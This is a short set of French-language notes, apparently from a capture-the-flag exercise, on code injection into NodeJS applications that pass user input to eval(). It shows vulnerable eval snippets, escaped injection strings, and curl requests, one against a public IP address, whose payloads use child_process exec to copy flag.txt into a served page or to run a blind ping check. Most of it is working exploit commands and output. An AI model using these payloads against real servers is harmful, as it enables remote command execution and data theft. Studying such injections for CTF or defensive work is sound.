 # Injection NodeJS

tester avec: ";", "+", and ".".
 
## basics:

### code 

```javascript
 eval("var i = '" + input + "'")
```
### injection:

```javascript
 '; console.log('injection'); '
```
### execurtera: 

```javascript
 var i = ''; console.log('injection'); ''
```

## +complexe:

### Code:

```javascript
eval('const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("' + json[key] + '").digest("hex");');
```

### échapper les chars:

```bash
└──╼ $jq -aR .
"); console.log("successful injection"); //
"\"); console.log(\"successful injection\"); //"
```

```bash
└──╼ $curl -X POST http://127.0.0.1:21440/admin -d '{"key":"\"); console.log(\"successful injection\"); //"}'
successful injection
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""); console.log("successful injection"); //").digest("hex")

curl -X POST http://167.99.88.216:32153/admin -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"cat flag.txt > denied.html\"); //"}'
```

### Blind:

```bash
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"ping -c 3 127.0.0.1\"); //"}'
sudo tcpdump -i lo icmp
```